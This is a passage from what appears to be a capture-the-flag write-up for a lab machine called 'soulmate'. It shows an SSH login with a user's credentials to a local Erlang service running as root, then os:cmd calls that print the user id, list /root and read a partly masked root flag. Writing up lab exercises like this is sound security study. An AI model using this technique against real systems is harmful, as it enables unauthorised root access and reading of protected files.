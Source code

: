 i try to connect to the same internal service `ssh/2222` , using ben's credentials.

```sh
ben@soulmate:~$ ssh 127.0.0.1 2222
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '127.0.0.1' (ED25519) to the list of known hosts.
ben@127.0.0.1's password: 
Last login: Fri Oct 24 20:08:06 2025 from 127.0.0.1


(ssh_runner@soulmate)1> os:cmd(id).

"uid=0(root) gid=0(root) groups=0(root)\n"
(ssh_runner@soulmate)2> os:cmd(pwd).

"/\n"
(ssh_runner@soulmate)3> os:cmd("ls root").

"root.txt\nscripts\n"
(ssh_runner@soulmate)4> os:cmd("cat /root/root.txt").

"8f115a45d269755e73**********\n"
(ssh_runner@soulmate)5> q().

ok
Connection to 127.0.0.1 closed.
ben@soulmate:~$ exit
logout
Connection to soulmate.htb closed.
```
Perfect ! , We got the root flag.